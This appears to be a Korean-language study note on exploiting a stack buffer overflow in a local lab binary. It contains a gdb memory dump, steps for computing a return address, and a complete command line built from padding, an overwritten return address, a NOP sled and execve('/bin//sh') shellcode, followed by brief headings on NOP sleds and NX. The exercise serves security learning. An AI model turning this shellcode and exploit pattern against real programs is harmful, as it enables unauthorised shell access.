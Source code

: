 ```
0xffffd064:	0xb0d231c9	0x4180cd0b	0x41414141	0x41414141
0xffffd074:	0x41414141	0x41414141	0xffffd054	0xffffd300
0xffffd084:	0x00000000	0x00000000	0xf7dfae81	0x00000002
0xffffd094:	0xffffd124	0xffffd130	0xffffd0b4	0x00000002
(gdb) 





r `python -c 'print "A"*36+"RETN"+"\x90"*100000+"SHELLCODE"'`
Breakpoint 1, 0x56555587 in vuln ()
(gdb)  x/2wx $esp
0xfffe49ac:	0xfffe49b4	0xfffe4c6a

x/40wx 0xfffe4c6a

p/x 0xfffe4c6a+50000

(gdb) p/x 0xfffe4c6a+50000
$1 = 0xffff0fba

ffff 0f ba

./example1 `python -c 'print "A"*36 + "\xba\x0f\xff\xff" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```


[bin 파일 실행](https://medium.com/@memoming_/%EC%9A%B0%EB%B6%84%ED%88%AC%EC%97%90%EC%84%9C-bin%ED%8C%8C%EC%9D%BC-%EC%8B%A4%ED%96%89-%EC%84%A4%EC%B9%98%ED%95%98%EA%B8%B0-900c0b633c4b)


실행해본결과 shellcode자체에 문제가 있음을 알았음.


# NOP Sled


No OPeration


# NX bit의 등장


